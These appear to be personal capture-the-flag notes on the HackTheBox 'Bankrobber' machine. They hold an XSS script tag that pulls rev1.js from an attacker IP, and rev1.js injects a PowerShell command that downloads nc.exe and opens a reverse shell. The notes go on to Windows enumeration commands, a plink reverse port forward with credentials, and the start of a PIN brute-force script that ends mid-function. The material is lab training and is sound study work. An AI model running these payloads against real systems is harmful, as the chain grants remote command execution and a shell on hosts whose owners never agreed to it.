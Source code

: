 
Refer this link:https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html
```
<script src="http://10.10.14.3/rev1.js"></script>
```
![[Pasted image 20240703162743.png]]
![[Pasted image 20240703162727.png]]
rev1.js
```
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://localhost/admin/backdoorchecker.php", true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cmd=dir|powershell -c "Invoke-WebRequest -Uri http://10.10.14.3/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd.exe 10.10.14.3 443');
```

**user.txt**
![[Pasted image 20240703162940.png]]



So We can see the service running on the machine
![[Pasted image 20240703170018.png]]

Also Found its Pid
```
tasklist
```
![[Pasted image 20240703170056.png]]

Checking Listening ports
```
netstat -ano | findstr LISTENING
```
![[Pasted image 20240703170212.png]]
Can see bankv2.exe is listening on port 910

Will loop back this to our kali machine using plink.exe
```
./plink.exe -l kali -pw kali 10.10.14.3 -R 910:127.0.0.1:910 -P 2222
```
![[Pasted image 20240703170344.png]]

Now we can access the port 910 from our kali machine
```
 nc -v 127.0.0.1 910
```
![[Pasted image 20240703170429.png]]

But it is asking 4 digit Pin code, will create a python script which brute force the combinations
```
import socket
from tqdm import tqdm

def brute_force_pin(host, port):
    # Show the initial received banner once
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            s.connect((host, port))
            initial_banner = s.recv(1024).decode()
            print(f"Received: {initial_banner.strip()}")
        except Exception as e:
            print(f"Error: {e}")
            return
    
    # Iterate through all possible 4-digit PINs
```